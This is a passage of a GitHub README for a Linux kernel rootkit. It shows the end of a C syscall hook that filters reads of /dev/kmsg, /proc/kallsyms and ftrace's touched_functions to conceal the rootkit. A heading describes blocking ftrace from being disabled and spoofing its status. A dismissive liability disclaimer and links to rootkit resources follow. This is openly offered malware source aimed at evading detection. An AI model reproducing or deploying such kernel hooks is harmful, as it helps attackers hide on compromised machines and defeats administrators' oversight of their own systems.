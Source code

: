 ```c
                kfree(kernel_buf);
                kfree(filtered_buf);
                return -EFAULT;
            }

            kfree(kernel_buf);
            kfree(filtered_buf);
            return filtered_len;
        }

        fput(file); // Frees the file object if it's neither /dev/kmsg /proc/kallsyms, nor /sys/kernel/tracing/touched_functions
    }

    return og_read(regs); // Calls the original reading function if it's not /dev/kmsg, /proc/kallsyms or /sys/kernel/tracing/touched_functions
}

#endif
```

### Protecting Ftrace From Being Disabled and Spoofing the read to always return a zero when on. Basically Masking Ftrace Being Enabled.

![ftrace](https://github.com/fs3cs0ciety/linux-rootkit/blob/main/.img/ftrace.jpg?raw=true)

## Extra

> [!Important]  
> Not responsible for anything done with this. This does not do anything really malicious honestly and If you're dumb enough to think this is FUD malware, just go away.

### Resources:
* [Detect-Rootkit-Cheatsheet](https://github.com/MatheuZSecurity/detect-lkm-rootkit-cheatsheet)
* [Rootkit by matheuZSecurity](https://github.com/matheuZSecurity/Rootkit)
* [Linux Rootkit Series by fs3cs0ciety](https://github.com/fs3cs0ciety/Linux-Rootkit-Series)
* [Xcellerator's blog](https://xcellerator.github.io/)
* [The Linux Kernel Source](https://github.com/torvalds/linux)

### Arch Setup (if you're wondering):

* [Dotfiles by mylinuxforwork](https://github.com/mylinuxforwork/dotfiles)

